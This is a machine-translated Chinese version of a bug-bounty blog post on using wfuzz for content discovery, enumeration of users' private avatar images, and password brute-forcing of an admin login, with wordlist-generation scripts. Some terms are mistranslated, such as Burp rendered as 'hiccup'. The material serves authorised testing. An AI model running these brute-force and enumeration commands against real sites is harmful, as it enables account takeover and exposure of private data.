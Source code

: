 # 如何在没有打嗝 Pro 的情况下高效的蛮力

> 原文：<https://infosecwriteups.com/how-to-brute-force-efficiently-without-burp-pro-1bb2a414a09f?source=collection_archive---------0----------------------->

# Wfuzz 和 T2 宣布他们是天造地设的一对。

![](img/b6c9dd2ffd1c8bf90b7093b942be9959.png)

在过去的一个月里，我试图将我的侦查游戏与其他黑客区别开来。尽管这些不是革命性的技巧，但我认为它们没有被充分利用。但是，请注意，这些会产生一些噪音，可能会让你被列入 cdn 甚至 ISP 的黑名单，所以不要太疯狂地进行测试。我将要分享的工具应该可以帮助你们解决 CTF 和 bug 奖金的问题。

首先，我告诉自己，在 3 个月前使用 wfuzz 获得第一笔大额奖金后，我会得到[打嗝套件 Pro](https://portswigger.net/burp) 。wfuzz 是一个非常通用的工具，可以用于很多事情。就个人而言，我主要使用它进行内容发现、管理帐户接管和枚举易受 IDOR 攻击的端点。我会试着解释如何使用这个工具，但是我说的任何东西都不能代替[文档](https://wfuzz.readthedocs.io/en/latest/index.html#)，所以我建议你先去读一下。

使用 wfuzz 最简单的方法是快速发现内容。这对 CTF 和臭虫赏金非常有用。首先，我建议将 SecLists 克隆到 wfuzz 目录中。我对那里的单词列表做了一些个人修改，但是在这个例子中，我使用了一个大目录单词列表。

![](img/cc6d0da669b8a1aa9209bf6847bd920a.png)

*wfuzz -z 文件，ldir.txt -t 150 — hc 418，404，403，302，301*[*https://vuln.target.com/FUZZ*](https://vuln.target.com/FUZZ)

我将上面的命令分解一下，第一个参数*-*-***z 文件，*-**是指定 wordlist wfuzz 将**-*替换为*-**关键字。 **-t** 代表线程，因此将使用 150 个线程。 ***-hc*** 用于隐藏 http 响应，因此不会显示 418，404，302 个响应，因为我们对内容发现的 200 个响应最感兴趣。

我认为使用 wfuzz 最重要的是知道如何使用-hc -hh -hl 等过滤结果。第一个根据 HTTP 状态代码过滤，第二个根据响应中的字符数过滤，第三个根据响应中返回的行数过滤。根据您要寻找的内容，您可能希望通过不同的方法进行筛选，以获得正确的结果。这是一个真实的世界运行可能看起来像在哪里，我试图找到我或私人资料图片。

```
$ wfuzz -z file,m.txt --hc 404,403 -t 100 https://**REDACTED**.com/avatars/FUZZ/normal_avatar.png
********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: https://**REDACTED**.com/avatars/FUZZ/normal_avatar.png
Total requests: 75000

==================================================================
ID      Response   Lines      Word         Chars          Payload
==================================================================

022179:  C=200     25 L      143 W         6754 Ch        "**REDACTED**"
039413:  C=200     68 L      341 W        18338 Ch        "**REDACTED**"
055859:  C=200    138 L      813 W        41353 Ch        "**REDACTED**"
063779:  C=200     47 L      212 W         7588 Ch        "**REDACTED**"
069880:  C=200    159 L      775 W        33480 Ch        "**REDACTED**"
072513:  C=200    102 L      485 W        23472 Ch        "**REDACTED**"

Total time: 105.0043
Processed Requests: 75000
Filtered Requests: 74994
Requests/sec.: 714.2557
```

如果你想有效地使用 wfuzz，我还有几个小技巧。

1.  对于 post 请求，将 curl 命令格式化如下:

```
curl 'https://REDACTED/login' -H 'authority: ' -H 'cache-control: max-age=0' ... --data 'csrf_token=5ed1ed15fd8aceadb94e471d4bacc51936b54b28&came_from=%2F&login=admin&password=hunter12' --compressed--------------------------------------------------------------------wfuzz -z file,passwords.txt --hc 403,200 -t 100 -d 'csrf_token=5ed1ed15fd8aceadb94e471d4bacc51936b54b28&came_from=%2F&login=admin&password=FUZZ' -H 'authority: ' -H 'cache-control: max-age=0' ... https://REDACTED/login
```

2.自己生成一些有用的有效载荷添加到单词列表中，例如所有的 5 位数数字等

```
limbo@LimBomber:~/wfuzz/wordlist$ head 20hex.txt
db4fefbc5d617dc676f2
954fdebfdbca06455f9c
0d90baa6da88f989fd21
440f1f5d2ffeb7b33293
c858d853c5446e6c0b5b
cde6016e932cfcd06648
5d2a83523dd9750322a9
8cbdda6b8fdf39319dbd
f2a257a412650c30c162
bc049915fc636afed9ee
limbo@LimBomber:~/wfuzz/wordlist$ head 6rand.txt
22u01L
aAZAH2
oFUk8g
9i6Dpp
u9mY6E
wyxndG
vPncFw
801Uo8
d7RzKd
6SL0RU
limbo@LimBomber:~/wfuzz/wordlist$ head 4dig.txt
1000
1001
1002
1003
1004
1005
1006
1007
1008
1009
limbo@LimBomber:~/wfuzz/wordlist$ cat md.py
import md5
for i in range(10000, 85000):
        m = md5.new()
        m.update(str(i))
        print(m.hexdigest())
```

这就是我现在所知道的，请随意发表评论或在 [Twitter](https://twitter.com/ErayMitrani) 上提问，我会尽力回答。